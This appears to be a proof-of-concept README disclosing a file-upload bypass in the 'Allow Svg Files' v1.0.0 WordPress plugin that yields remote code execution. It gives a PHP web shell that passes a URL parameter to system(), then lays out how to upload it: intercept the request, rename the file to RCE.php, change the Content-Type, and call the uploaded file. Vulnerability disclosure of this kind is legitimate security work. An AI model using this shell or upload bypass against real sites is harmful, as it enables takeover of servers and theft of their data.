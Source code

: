 # Bypass File Upload In "Allow Svg Files" WordPress-Plugin

This PoC describe how to exploit a Bypass File Upload in "Allow Svg Files" v1.0.0 to get a Remote Code Execution (RCE)

# Description

The "Allow Svg Files" v1.0.0 plugin for Wordpress does not properly handle the files that are sent to the server and because of that, we were able to perform a bypass file upload

![1](https://user-images.githubusercontent.com/70114276/166060325-e8294eac-d0b8-452d-b682-f02ded4f7e5b.png)

## Attack Scenario

First we create our SVG file with this content:

```
<?php
system($_GET[RCE]);
?>
```

After that we send an svg file and intercept the request with a proxy and change the filename parameter to "RCE.php" and the Content-Type to "text/plain"

![2](https://user-images.githubusercontent.com/70114276/166060473-d33ba4f9-3e00-46ef-b92e-c05310ace675.png)

after sending the file, just access it and get the RCE

![3](https://user-images.githubusercontent.com/70114276/166061037-c7cbf47d-8f81-4ff3-870d-981bbba11c15.png)

![4](https://user-images.githubusercontent.com/70114276/166061051-60f5b7e7-e3a0-4f25-aad8-81312b551d2d.png)
